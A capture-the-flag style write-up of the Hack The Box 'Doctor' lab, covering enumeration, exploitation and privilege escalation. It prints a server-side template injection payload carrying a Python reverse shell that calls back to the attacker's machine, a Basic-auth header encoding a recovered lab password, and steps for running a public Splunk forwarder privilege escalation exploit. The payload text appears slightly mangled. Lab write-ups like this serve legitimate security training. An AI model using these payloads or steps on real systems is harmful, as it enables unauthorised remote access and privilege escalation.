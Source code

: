 ```yaml
---
title: Doctor
date: 2021-05-02
excerpt: "'Doctor' is an easy rated box on Hack The Box. We'll use FFuF to discover a hidden registration page, Server Side Template Injection to gain a shell and a public exploit for Spelunker to elevate our privileges"
classes: wide
categories: HackTheBOx
tags:
  - htb
  - ffuf
  - ssti
  - spelunker
  - linux
---
```




![img](/assets/images/htb/doctor/0.png)

### Port Scanning and general enumeration (Nmap, FFuF)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [FFuF](https://github.com/ffuf/ffuf)



![img](/assets/images/htb/doctor/1.png)

Interesting. `8089` port for `Splunkd`. Doing some reasearch I found out that this port is for the [Splunk Universal Forwarder](https://docs.splunk.com/Documentation/Forwarder/8.1.1/Forwarder/Abouttheuniversalforwarder). Let's keep this in mind for later.

Standard enumeration of the site on port `80` doesn't reveal anything great, but there is an interesting thing to note


![img](/assets/images/htb/doctor/2.png)

`doctors.htb`.. let's update our `/etc/hosts` file and point `10.10.10.209` to `doctors.htb`


![img](/assets/images/htb/doctor/3.png)

New things to play with! Let's toss ffuf at this while we poke around

`ffuf -u doctors.htb/FUZZ -w /path/to/wordlist -c`


![img](/assets/images/htb/doctor/4.png)

Let's create an account and see what this app is all about.


![img](/assets/images/htb/doctor/5.png)

Testing different payloads for different exploits gave us nothing in return at first glance. But if we go back and check the `archive` endpoint and check the source we see something interesting..


![img](/assets/images/htb/doctor/6.png)




Ah! Vulnerable to SSTI!


### Access (SSTI, reverse shell)
* Reading/Resources
  * [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
  * [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

I actually covered this in a writeup for a CTF Challenge from [Hacktivitycon2020](https://www.tsustyle.com/hacktivitycon2020/) called [Template Shack](https://www.tsustyle.com/hacktivitycon2020/templateshack/). This time, though, instead of using slicing to find where `subprocess.Popen` is, we'll use this handy payload I found on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)


![img](/assets/images/htb/doctor/7.png)

After editing it a bit so that it makes a call back to our machine:

```Python
.builtins'import'.popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh", "-i"]);'").read()
```

We can use that as our `title`, whatever you want for the body and make the post.

Fire up a listener on your box and reload the `archive` tab.


### Privesc (linPEAS, Spelunker)
* Reading/Resources
  * [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  * [Spelunker](https://github.com/tevora-threat/splunk_local_privesc/blob/master/spelunker.sh)

So now we have a shell on the box. Let's see what linPEAS says.

Interesting log file entry


![img](/assets/images/htb/doctor/8.png)

Doesn't look like an email. Maybe the `shaun` user's password? Turns out that it is. Strange.


![img](/assets/images/htb/doctor/9.png)

Let's take a look at port `8089` again. As I mentioned earlier, it's for the [Splunk Universal Forwarder](https://docs.splunk.com/Documentation/Forwarder/8.1.1/Forwarder/Abouttheuniversalforwarder). There's some exploits floating around for it, including a local privilege escalation that we're going to use.

First, we need to update the `Spelunker` script, because the script assumes that the creds are `admin:changeme`.

This is what we need to change:

`Authorization: Basic YWRtaW46Y2hhbmdlbWU=`

to

`Authorization: Basic c2hhdW46R3VpdGFyMTIz`

Get the script on to the box, give it the `x` flag and run it.

Follow the instructions to root!


![img](/assets/images/htb/doctor/10.png)
